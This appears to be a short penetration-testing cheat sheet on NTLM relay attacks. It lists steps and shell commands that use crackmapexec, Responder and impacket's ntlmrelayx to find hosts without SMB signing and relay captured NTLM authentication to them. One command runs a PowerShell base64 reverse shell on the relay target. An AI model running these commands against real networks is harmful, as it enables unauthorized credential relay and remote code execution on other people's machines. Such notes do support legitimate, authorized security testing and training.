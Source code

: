 


Ntlmv1/2 has a challenge/response component to it, so each hash is unique and cannot be used in pass-the-hash.  
Ntlmv1/2 can however be used in relay, but you’ll have to set up a proper relay and capture it again. 

#### steps 
1) Use crackmapexec‘s genrelay flag to get a list of all hosts that **don’t enforce SMB signing** - it’ll output a targets list.

2) Run ntlmrelayx with the target file from above. You may wish to also run it with socks and smb2support flags.

3) Config responder to disable HTTP and SMB since ntlmrelayx will be running (if you did not use `--no-http-server` in ntlmrelayx)

4) run responder.


```shell
#  we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).
cat /etc/responder/Responder.conf | grep 'SMB ='

responder -I <interface name>

impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <poweshell base64 reverse shell>'

```

